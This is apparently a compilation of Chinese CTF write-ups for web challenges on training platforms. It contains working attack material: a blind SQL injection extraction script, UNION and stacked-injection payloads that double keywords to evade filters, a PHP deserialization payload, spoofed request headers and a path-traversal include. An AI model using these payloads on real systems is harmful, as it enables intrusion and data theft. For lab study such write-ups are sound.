


try: payload = base64_decode(payload) except Exception as e: raise Exception('Could not base64 decode the payload because of ' 'an exception')
if decompress: try: payload = zlib.decompress(payload) except Exception as e: raise Exception('Could not zlib decompress the payload before ' 'decoding the payload')
return session_json_serializer.loads(payload)
if __name__ == '__main__': print(decryption(sys.argv[1].encode()))
[极客大挑战 2019]BuyFlag
pay.php
cookie:user=1
1 2 3 4 5 6 7 8
if (isset($_POST['password'])) { $password = $_POST['password']; if (is_numeric($password)) { echo "password can't be number</br>"; }elseif ($password == 404) { echo "Password Right!</br>"; } }//不为数字，且等于404
url = 'http://40c9be7a-36f0-4e80-94ca-d1ac9e121947.node1.buuoj.cn/index.php' data = {"id":""} flag = 'flag{' i = 6 while True: #从可打印字符开始 begin = 32 end = 126 tmp = (begin+end)//2 while begin<end: print(begin,tmp,end) time.sleep(1) data["id"] = "if(ascii(substr((select flag from flag),{},1))>{},1,2)".format(i,tmp) r = requests.post(url,data=data) if 'Hello' in r.text: begin = tmp+1 tmp = (begin+end)//2 else: end = tmp tmp = (begin+end)//2 flag+=chr(tmp) print(flag) i+=1 if flag[-1]=='}': break
<?php highlight_file(__FILE__); class FileHandler { public $op = 2; public $filename = "php://filter/read=convert.base64-encode/resource=flag.php"; public $content; } $a = new FileHandler(); $b = serialize($a); echo($b); ?>
It doesn’t come from ‘https://www.Sycsecret.com' 加 Referer:https://www.Sycsecret.com Please use “Syclover” browser 改 User-Agent: Syclover” browser No!!! you can only read this locally!!! 加 X-Forwarded-For:127.0.0.1
class Name{//声明类 private $username = 'nonono'; private $password = 'yesyes'; //两个都是私有数据 public function __construct($username,$password){ $this->username = $username; $this->password = $password; }
function __wakeup(){ $this->username = 'guest'; }
function __destruct(){ if ($this->password != 100) { echo "</br>NO!!!hacker!!!</br>"; echo "You name is: "; echo $this->username;echo "</br>"; echo "You password is: "; echo $this->password;echo "</br>"; die(); //password值必须为100，否则die } if ($this->username === 'admin') { global $flag; //username值必须为admin echo $flag; }else{ echo "</br>hello my friend~~</br>sorry i can't give you the flag!"; die();
进入靶机  用万能密码试一试  用户名和密码都输入 admin’ or ‘1’=’1 得到flag
[极客大挑战 2019]LoveSQL
[极客大挑战 2019]BabySQL
先尝试万能密码登录，最后发现 ?username=admin’–+&password=1登陆成功
查字段 ?username=admin’ order by 3–+&password=1 报错： You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ‘der 3– ‘ and password=’1’’ at line 1，发现语句中order by 就剩der了，说明过滤了or和by, 双写绕过：?username=admin’ oorrder bbyy 4–+&password=1
查得有3个字段，开始联合查询 ?username=-admin’ union select 1,2,3–+&password=1找回显， 又有报错：check the manual that corresponds to your MariaDB server version for the right syntax to use near ‘1,2,3– ‘ and password=’1’’ at line 1 过滤了union 和 select，再双写绕过： ?username=-admin’ ununionion seselectlect 1,2,3–+&password=1有回显
查当前数据库为geek,查该数据库的表： ?username=-admin’ ununionion seselectlect 1,2,group_concat(table_name) from information_schema.tables where table_schema=’geek’–+&password=1，有报错： check the manual that corresponds to your MariaDB server version for the right syntax to use near ‘.tables table_schema=’geek’– ‘ and password=’1’’ at line 1 过滤了from和where，继续双写绕过 结果：Table ‘infmation_schema.tables’ doesn’t exist， 卧槽，小细节啊，上面过滤了or，所以information里面的or也要双写 （查所有数据库，查ctf里面的表，查Flag里面的列，查flag里面的字段）
由上面知道flag在表“1919810931114514”中，查表words 根据两个表的情况结合实际查询出结果的情况判断出words是默认查询的表，因为查询出的结果是一个数字加一个字符串，words表结构是id和data，传入的inject参数也就是赋值给了id，我们可以利用数据库修改表名和列名的方法，将我们要查询的表名改成第二个，就可以查询出想要的内容了 操作如下： alter table words rename to aaa;先把原来的words表名字改成其他 alter table 1919810931114514 rename to words;将表1919810931114514的名字改为words alter table words change flag id varchar(100);将改完名字后的表中的flag改为id，字符串尽量长点 构造payload如下：
1'; alter table words rename to aaaa;alter table `1919810931114514` rename to words;alter table words change flag id varchar(100);--+
观察源码发现hint.php，打开发现 flag not here, and flag in ffffllllaaaagggg 如果满足相应的条件，include引入文件。只需使emmm::checkFile($_REQUEST[‘file’]返回值为true，利用../跳转目录读取flag即可。 payload为：file=source.php?/../ffffllllaaaagggg，经过mb_strpos为source.php?/../ffffllllaaaagggg?, 但是mb_strpos这个函数只返回首次出现的位置，所以还是会返回第一个？的位置，而mb_substr截取函数，从0开始截取一直到第一个？的位置，截取内容为source.php，恰好能与白名单中的进行匹配，可以return true;，所以通过第一次截取进行绕过 ffffllllaaaagggg文件和index.php不在同一个目录下，所以读取的是上级目录。构造payload http://web5.buuctf.cn/?file=source.php?../../../../../ffffllllaaaagggg，找到flag（利用/使source.php?成为一个不存在的目录，最后include利用../跳转目录读取flag即可）